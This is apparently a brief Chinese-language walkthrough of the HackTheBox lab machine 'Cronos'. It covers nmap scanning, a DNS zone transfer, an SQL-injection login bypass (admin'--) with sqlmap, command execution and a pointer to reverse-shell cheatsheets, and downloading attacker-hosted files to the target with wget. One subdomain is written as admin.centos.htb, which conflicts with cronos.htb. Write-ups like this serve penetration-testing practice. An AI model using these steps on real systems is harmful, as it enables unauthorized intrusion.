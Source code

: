 
#CronOS

``` 
nmap -sC -sV -oA nmap/cronos 10.10.10.13
```
将ip改为域名，10.10.10.13 -> cronos.htb
```
nslookup
> server 10.10.10.13
> 10.10.10.13
> >cronos.htb


dig axfr @10.10.10.13 cronos.htb
```
得到admin.centos.htb, 将request请求复制下，存入文档，用sqlmap进行SQL注入
``` 
sqlmap -r login.req 
```
账号admin'---  
进入目标地址，则是命令执行  
google -> pentestmonkey reverse shell cheatsheet  
本机开HTTP服务，上传文件
``` 
python -m SimpleHTTPServer
```
远程主机，访问
``` 
wget -r http://10.10.15.20:8000/
```
google -> laravel create schedule command terminal shell bash 





